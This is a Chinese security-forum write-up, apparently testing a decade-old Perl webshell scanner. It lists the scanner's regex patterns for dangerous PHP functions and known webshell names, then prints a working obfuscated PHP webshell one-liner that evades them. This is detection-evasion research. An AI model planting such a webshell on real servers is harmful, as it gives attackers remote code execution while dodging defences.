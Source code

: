 可以看到，这个脚本是腾讯安全的 `lakehu` 师傅在2013年完工的，今年是2023年  
整整十年时间，犹如弹指一挥间，没想到还有个人点开了他留下的赛博足迹

![跨越十年-5.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-56ca18a5c4c88eb9d43cad993859a0e4ee3257f8.png)

2# 这个脚本到底干了啥
============

第一次运行的时候，报了如下错误：

![跨越十年-4.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-00dac65e6a2ce947463b8d015b974a0d554705b0.png)

运行的时候，会有这个报错：`/usr/bin/perl^M: bad interpreter: No such file or directory`  
这是因为不同的编码方式导致，Windows环境下面新建的文本文档默认是dos格式的，dos格式在Linux系统里面有些的字符是不可见的，所以执行报错，解决方法如下：

```c
vim ./ScanWebShell.pl
:set ff        //显示文件格式 fileformat=dos
:set ff=unix   //修改格式为unix
:wq            //保存并退出
```

刚看到这个pl脚本，我只认为它就识别了常见的高危函数和可调用的高危函数，但随着深入上手和查看，它的余威还是有点震撼我的，这是脚本内提取出的正则匹配式：

```c
eval(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
assert(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
system(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
passthru(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
exec(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
pcntl_exec(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
shell_exec(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
popen(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
proc_open(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
preg_replace(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
create_function(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
ob_start(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
array_map(\s|\/\*.*?\*\/)*\(\s*.*?\s*\)
`.*?`
(include|include_once|require|require_once)(\s|\/\*.*?\*\/)*\(\s*.*?\$.*?\)
(include|include_once|require|require_once)(\s|\/\*.*?\*\/)*\(?\s*[\'"].*?\.[^p][^h][^p]\w*?[\'"].*?\s*?;
(phpspy|4ngel|wofeiwo|c99shell|webshell|php_nst|reDuh)
$[\w-_\'\\[\\]{}\.\$\*/|]+(\s|\/\*.*?\*\/)*\(.*?\)
```

首先，既然过滤了这么多高危函数，那我马上想到了我写的免杀手册的第一个实例，这里面可是一个高危函数都没有的：

```php
<?=~$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);
```

如果不懂这个WebShell的原理，可以看开源项目的12.1部分：<https://github.com/AabyssZG/WebShell-Bypass-Guide/blob/main/PHP-Webshell-ByPass-Guide.md>

![跨越十年-6.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-15312f7b1d15e0370c1f1a1b1085d074f65120a7.png)
